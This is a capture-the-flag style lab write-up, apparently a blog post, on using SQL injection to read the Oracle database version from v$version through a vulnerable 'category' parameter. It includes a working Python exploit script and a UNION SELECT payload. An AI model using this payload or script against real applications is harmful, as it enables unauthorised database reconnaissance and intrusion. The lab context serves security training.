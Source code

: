 ```yaml
---
title: 'SQLi Lab 3'
description: 'Using SQL Injection to determine Oracle database details via v$version'
---
```



## SQL injection attack, querying the database type and version on Oracle

<div style="text-align: justify;">
  In this lab, I learned how SQL injection can be leveraged not just for login bypass or data leaks, but for critical recon such as identifying the target database type and version. Using a UNION SELECT injection on an Oracle backend, I was able to extract data from the `v$version` view. Knowing the exact DBMS and version is valuable during real-world exploitation, as it informs which payloads and techniques are likely to succeed.

  The vulnerable parameter was found in the `category` filter, which accepted user input unsafely. Crafting a payload to select from `v$version` revealed the Oracle database version, confirming the injection point and enabling further targeted testing.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The input in the `category` parameter is injectable.
- A **UNION SELECT** statement is used to retrieve DB banner/version.
- Oracle's `v$version` view is targeted to reveal backend info.
- Script looks for a success message (e.g., "Congratulations") in the response.
- This indicates that the injected query was executed and returned data.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    uri = '/filter?category='
    r = requests.get(url + uri + payload, verify=False, proxies=proxies)
    if "Congratulations" in r.text:
        return True
    else:
        return False


if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = "'UNION+SELECT+BANNER,BANNER+FROM+v$version--"
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com ' % sys.argv[0])
        sys.exit(-1)
        
    if exploit_sqli(url, payload):
        print("[+] SQL injection successful!")
    else:
        print("[-] SQL injection unsuccessful")        
```


<Comment />
